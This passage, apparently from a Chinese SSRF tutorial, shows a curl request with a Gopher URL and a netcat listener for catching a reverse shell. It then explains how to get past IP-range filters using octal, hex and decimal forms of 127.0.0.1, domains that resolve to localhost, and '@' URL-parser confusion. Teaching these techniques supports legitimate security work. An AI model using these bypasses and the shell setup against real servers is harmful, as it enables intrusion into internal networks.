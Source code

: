 curl请求

```bash
curl -v "Gopher协议的URL"
```

本地监听2333端口，收到反弹shell 

```bash
nc -lvv 2333
```

[如何通俗地解释 CGI、FastCGI、php-fpm 之间的关系？](https://www.zhihu.com/question/30672017)

### 常见绕过方法

#### 一、检查IP是否为内网IP

很多开发者认为，只要检查一下请求url的host不为内网IP，即可防御SSRF。

通常使用正则过滤以下5个IP段：

```
192.168.0.0/16
10.0.0.0/8
172.16.0.0/12
127.0.0.0/8
0.0.0.0/8   #在Linux下，127.0.0.1与0.0.0.0都指向本地
```

这种防御方法通常可以用IP地址进制转换绕过

> 利用八进制IP地址绕过 0177.0.0.1
>
> 利用十六进制IP地址绕过 0x7f000001
>
> 利用十进制的IP地址绕过 2130706433

他们一个都匹配不上正则表达式， 但实际请求都是127.0.0.1 

#### 二、DNS解析绕过

Host可能是IP形式，也可能是域名形式。

如果Host是域名形式，我们是没法直接比对的，只要其解析到内网IP上，就可以绕过。

网上有个神奇域名 [http://xip.io](http://xip.io/) (有墙)，[www.127.0.0.1.xip.io](https://www.cnblogs.com/wintrysec/p/www.127.0.0.1.xip.io),会自动解析到127.0.0.1



#### 三、利用URL解析器滥用

> 某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。
>
> 这时候可能会出现对URL参数解析不当，导致可以绕过过滤
>
> [http://www.baidu.com@127.0.0.1](http://www.baidu.com@127.0.0.1/)
>
> 当后端程序通过不正确的正则表达式,对上述URL的内容解析的时候
>
> 会认为访问URL的host为[www.baidu.com](https://www.cnblogs.com/wintrysec/p/www.baidu.com),而实际上请求的是127.0.0.1上的内容
